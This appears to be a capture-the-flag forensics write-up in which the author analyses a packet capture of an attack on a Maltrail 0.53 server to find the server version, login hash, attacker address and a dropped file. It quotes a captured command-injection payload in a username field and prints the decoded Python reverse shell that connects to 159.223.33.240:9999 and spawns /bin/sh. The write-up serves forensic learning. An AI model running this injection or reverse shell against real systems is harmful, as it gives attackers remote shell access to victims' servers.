









# **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

So, at first, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So download of wireshark and installation could and did prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:


1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:
   
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

    The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:



```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:

A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.

Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

    1. At 2624-2625 the shell executes an `ls` command



    2. At 2648 we see that the `ls` returned a `/`-esque output



    3. Then, at 2742-2743, it does a `cd` to `/tmp`


    4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`



To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉

